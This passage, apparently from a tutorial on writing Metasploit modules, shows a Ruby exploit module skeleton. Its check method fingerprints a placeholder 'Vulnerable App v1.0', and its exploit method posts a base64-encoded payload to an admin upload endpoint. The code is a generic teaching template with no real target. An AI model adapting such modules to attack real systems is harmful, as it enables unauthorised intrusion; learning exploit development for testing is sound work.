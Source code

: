 ```ruby

    register_options(
      [
        OptString.new('TARGETURI', [true, 'Path to the vulnerable application', '/']),
      ], self.class
    )
  end

  def check
    # Implementation of check method
    uri = normalize_uri(target_uri.path)
    
    res = send_request_cgi({
      'method' => 'GET',
      'uri'    => uri
    })

    if res && res.code == 200 && res.body.include?('Vulnerable App v1.0')
      return Exploit::CheckCode::Appears
    end

    return Exploit::CheckCode::Safe
  end

  def exploit
    # Implementation of exploit method
    print_status("Exploiting the vulnerability...")
    
    # Create the malicious payload
    payload_cmd = Rex::Text.encode_base64(payload.encoded)
    
    # Send the exploit
    res = send_request_cgi({
      'method'    => 'POST',
      'uri'       => normalize_uri(target_uri.path, 'admin', 'upload.php'),
      'vars_post' => {
        'action'  => 'upload',
        'data'    => payload_cmd
      }
    })

    if res && res.code == 200 && res.body.include?('Success')
      print_good("Exploit successful!")
    else
      fail_with(Failure::UnexpectedReply, "Exploit failed")
    end
  end
end
```

## Advanced Metasploit Modules
